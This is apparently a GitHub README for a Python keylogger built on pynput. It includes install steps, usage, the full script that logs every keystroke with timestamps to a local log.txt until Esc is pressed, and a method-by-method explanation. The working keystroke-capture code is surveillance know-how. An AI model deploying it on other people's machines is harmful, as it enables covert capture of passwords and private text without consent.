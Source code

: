 
# Keylogger

This Python script implements a simple keylogger using the pynput library to capture keystrokes. The script runs in the background, recording keys pressed on the keyboard and saving them to a log file (log.txt).

## Installation

1. Clone the repo or just copy the script to a desired .py file

```bash
git clone https://github.com/yaxhx/keylogger.git
cd keylogger

```
2. Install the pynput library

```bash
pip install pynput

```


## Usage

1. Run the script
```javascript
python key.py

```
2. Stop the script
```bash
Press the 'Esc' key to stop the keylogger.

```

## Script
```python
from pynput import keyboard
import time
import threading
import os
import datetime

class KeyLogger:
    def __init__(self):
        self.keys = []
        self.running = False
        self.file_name = 'log.txt'

    def start(self):
        self.running = True
        self.listener = keyboard.Listener(on_press=self.on_press, on_release=self.on_release)
        self.listener.start()

    def stop(self):
        self.running = False
        self.listener.stop()

    def on_press(self, key):
        if key == keyboard.Key.esc:
            self.stop()
        else:
            self.keys.append(key)

    def on_release(self, key):
        pass

    def write_keys(self):
        while self.running:
            if self.keys:
                with open(self.file_name, 'a') as f:
                    f.write(str(datetime.datetime.now()) + '\n')
                    for key in self.keys:
                        f.write(str(key) + '\n')
                self.keys = []

    def run(self):
        self.start()
        writer = threading.Thread(target=self.write_keys)
        writer.start()
        while self.running:
            time.sleep(1)

    def main(self):
        self.run()

if __name__ == "__main__":
    keylogger = KeyLogger()
    keylogger.main()
```
## Features

- Captures all key presses.
- Records the timestamp of each capture session
- Saves logs to a file (log.txt).
- Stops logging when the Esc key is pressed.

## Script Overview

***'KeyLogger' Class***
>The KeyLogger class contains methods to start, stop, and run the keylogger.

- ***`__init__()`***: Initializes the keylogger, sets up an empty list to store keys, and sets the log file name.

- ***`start()`***: Starts the key listener.
- ***`stop()`***: Stops the key listener.
- ***`on_press(key)`***: Handles key press events. If the Esc key is pressed, it stops the keylogger; otherwise, it adds the key to the list.

- ***`on_release(key)`***: Placeholder for key release events (not used).

- ***`write_keys()`***: Writes the captured keys to the log file at regular intervals.
- ***`run()`***: Starts the key listener and the logging thread.
- ***`main()`***: Entry point to run the keylogger.

![](https://media.giphy.com/media/xTiTnBELA6Mb1TeeOc/giphy.gif?cid=790b7611daqio7016ovb4mlaptxdctxr6gzfc2zkg01ai0lc&ep=v1_gifs_search&rid=giphy.gif&ct=g )

# Keylogger
